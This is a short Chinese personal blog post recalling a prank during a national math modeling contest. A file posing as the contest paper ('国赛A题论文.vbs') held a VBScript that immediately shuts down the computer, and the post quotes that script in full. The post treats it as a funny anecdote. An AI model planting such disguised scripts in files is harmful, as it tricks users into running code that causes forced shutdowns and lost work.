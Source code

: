 ```yaml
---
title: 数学建模国赛被整蛊
date: 2017-10-16 10:42:30
tags: 生活
categories: 生活
---
```




###### 国赛已经过去好长时间了，今天翻文件无意中看见”国赛A题论文.vbs”,想想在那三天的紧张的时间，看见这个是个什么心情？

###### 当然是，理性的分析一下啊。看到.vbs我就心里暗想着个东西不是啥好东西，结果用sublimetext打开一看,发现了好玩的东西
	dim Obj
	set  Obj = createobject("wscript.shell")
	Obj.exec "shutdown -s -t 0"
###### 一个basic的关机脚本,这个脚本不知坑了多少小组。哈哈哈
###### 但是这个要是一个病毒那就GG了